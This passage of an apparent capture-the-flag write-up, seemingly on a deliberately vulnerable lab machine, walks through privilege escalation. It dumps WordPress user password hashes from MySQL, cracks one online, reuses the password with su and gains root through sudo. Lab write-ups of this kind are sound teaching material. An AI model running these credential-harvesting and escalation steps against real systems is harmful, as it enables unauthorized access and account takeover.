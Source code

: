 ```bash
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
26 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
2 rows in set (0.00 sec)
```

We got the password hash for the user `btrisk`:`a318e4507e5a74604aafb45e4741edd3`

> Using the website `https://crackstation.net/` gives us the plaintext password for this hash `roottoor`
{: .prompt-info }

Now lets try this password for the system user `btrisk`.
```bash
www-data@ubuntu:/var/www/html/wordpress$ su btrisk
su btrisk
Password: roottoor

btrisk@ubuntu:/var/www/html/wordpress$ id
id
uid=1000(btrisk) gid=1000 groups=1000,4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

> It worked! And we see that this user is in the sudo group!
{: .prompt-info }

Lets get `root`!
```bash
btrisk@ubuntu:/var/www/html/wordpress$ sudo su
sudo su
root@ubuntu:/var/www/html/wordpress# id
id
uid=0(root) gid=0(root) groups=0(root)
```
